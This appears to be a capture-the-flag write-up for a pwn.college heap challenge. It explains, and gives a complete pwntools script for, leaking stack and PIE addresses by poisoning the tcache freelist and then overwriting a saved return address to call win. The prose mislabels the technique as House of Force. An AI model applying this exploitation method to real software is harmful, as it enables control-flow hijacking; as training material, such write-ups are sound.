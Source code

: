 ```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 11
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-07 08:00:21 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata
---
```


## Information
- category: pwn


## Description 
> Leverage TCACHE exploits to gain control flow.

## Write-up

**Goal:** use a heap primitive (House of Force style) to leak a stack address and PIE base, then overwrite the saved return address to call `win`.

### Summary
Malloc a small chunk, free it, then abuse the allocator metadata to make subsequent `malloc` return pointers into stack frames. Use small `echo`/read primitives to leak stack/return addresses, compute PIE offsets, then overwrite the return address with the `win` address and trigger the function return.

### Steps

### 1. Leak a stack pointer
1. `malloc(32)` and then `free()` the chunk (call this index `0`).
2. For the same index `0`, call `echo(0, offset = 8)` — reading at offset `8` prints a pointer that lies on the stack.
   - This leaks a stack address you can use to calculate offsets to saved return addresses and other saved frames.

### 2. Force the allocator to return a stack pointer
1. Use the House of Force primitive to manipulate the top chunk size / allocation pointer so the next `malloc` returns an address on the stack (the address you leaked).
2. `malloc(...)` now returns a pointer that points into stack memory.

### 3. Leak the return address (bypass PIE)
1. With the stack-mapped `malloc`/index in hand, call `echo(0, 16)` — this prints the saved return address from the stack frame.
2. From that leaked return address you can compute the PIE base and recover absolute addresses for `win`.

### 4. Overwrite return address and trigger `ret2win`
1. Since you have an index that maps to the stack, write a payload that places:
   - `0x10` bytes of padding,
   - followed by `p64(win_addr)` (the absolute address of `win`).
2. Ensure you keep any required canary or saved frame values intact if present.
3. return from the function so execution jumps to `win` and you get the flag.

Example conceptual payload (adjust offsets and widths for target):
```text
[ padding (0x10) ]
[ saved rbp (if needed) ]
[ ret addr -> p64(win_addr) ]
```
<img src="/images/stuff/Shot-2025-10-07-145500.png" style="border-radius: 14px;">


## Exploit

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyheap_level11.1")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def echo(idx,offset):
    p.sendline(b"echo")
    p.sendline(idx)
    p.sendline(offset)

def quit():
    p.sendline(b"quit")

def exploit():
    malloc(b"0",b"32")
    free(b"0")

    echo(b"0",b"8")

    p.recvuntil(b"Data: ")
    stack = u64(p.recvline().strip().ljust(8,b"\x00")) + 6
    log.success(f"stack: {hex(stack)}") 

    malloc(b"0",b"32")
    malloc(b"1",b"32")

    free(b"1")
    free(b"0")

    scanf(b"0",p64(stack))

    malloc(b"0",b"32")
    malloc(b"0",b"32")

    echo(b"0",b"16")

    p.recvuntil(b"Data: ")
    win = u64(p.recvline().strip().ljust(8,b"\x00")) - 0x1a93 + 0x1500
    log.success(f"win : {hex(win)}") 

    payload = b"A"*0x10 + p64(win)

    scanf(b"0",payload)
    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```